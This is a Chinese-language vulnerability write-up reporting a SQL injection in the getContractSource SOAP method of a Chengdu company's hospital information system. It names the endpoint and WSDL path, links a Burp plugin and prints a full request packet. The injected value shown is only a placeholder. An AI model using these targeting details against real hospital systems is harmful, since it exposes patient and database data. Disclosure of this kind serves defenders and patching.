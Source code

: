 # 成都信通网易医疗科技发展有限公司HIS系统getContractSource存在SQL注入漏洞

# 一、漏洞简介
成都信通网易医疗科技发展有限公司总部位于四川成都高新区天府软件园，在国内医疗软件行业中率先采用Java技术，融入国际国内标准，整体设计，持续研发，先后形成了“智慧云医院信息平台”、“医共体信息平台”、“互联网医院平台”、“医养融合信息平台”等新一代一系列自主知识产权产品，全面覆盖了单体医院业务、区域医疗、医共体、“互联网+健康”等信息化建设领域。成都信通网易医疗科技发展有限公司HIS系统getContractSource存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
    - 成都信通网易医疗科技发展有限公司HIS系统（基于电子病历的医院信息化平台）

# 三、特征
![1700650007533-e9496b7e-969f-4370-b652-44a251239e7b.png](./img/6tHPnbfRiahtTPoM/1700650007533-e9496b7e-969f-4370-b652-44a251239e7b-380998.png)

# 四、漏洞复现
    1. 漏洞位置

在下列`nzzManager`接口下的`getContractSource`参数

```plain
/xtHisService/services
```

![1700650622367-8e26144c-93e3-4609-8b3c-3d4d0c6aefbf.png](./img/6tHPnbfRiahtTPoM/1700650622367-8e26144c-93e3-4609-8b3c-3d4d0c6aefbf-935835.png)

    2. 使用burp抓包，使用wsdl插件解析

```plain
/xtHisService/services/nzzManager?wsdl
```

[wsdler.jar](https://www.yuque.com/attachments/yuque/0/2024/jar/1622799/1709222128209-b940588a-42dd-4499-95bf-a6da305a86b9.jar)

![1700650674347-50992ebb-210b-4f8e-b50a-640b554118ea.png](./img/6tHPnbfRiahtTPoM/1700650674347-50992ebb-210b-4f8e-b50a-640b554118ea-682866.png)

    3. 数据包

```plain
POST /xtHisService/services/nzzManager HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=0A4C07C0C8A7CFF9A03AD7B586FFCBBE
Upgrade-Insecure-Requests: 1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: xx.xx.xx.xx
Content-Length: 322

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:imp="http://imp.nzz.ws.manager.cdxt.com/">
   <soapenv:Header/>
   <soapenv:Body>
      <imp:getContractSource>
         <!--type: string-->
         <arg0>gero et</arg0>
      </imp:getContractSource>
   </soapenv:Body>
</soapenv:Envelope>
```

![1700650212974-87278389-d1ea-42ba-a89b-bbff759a26ed.png](./img/6tHPnbfRiahtTPoM/1700650212974-87278389-d1ea-42ba-a89b-bbff759a26ed-659778.png)

![1700650253954-e7f0aa6b-9253-468a-91c0-007f4e540ea6.png](./img/6tHPnbfRiahtTPoM/1700650253954-e7f0aa6b-9253-468a-91c0-007f4e540ea6-514866.png)



> 更新: 2024-02-29 23:55:28  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ia05az6it1imevtb>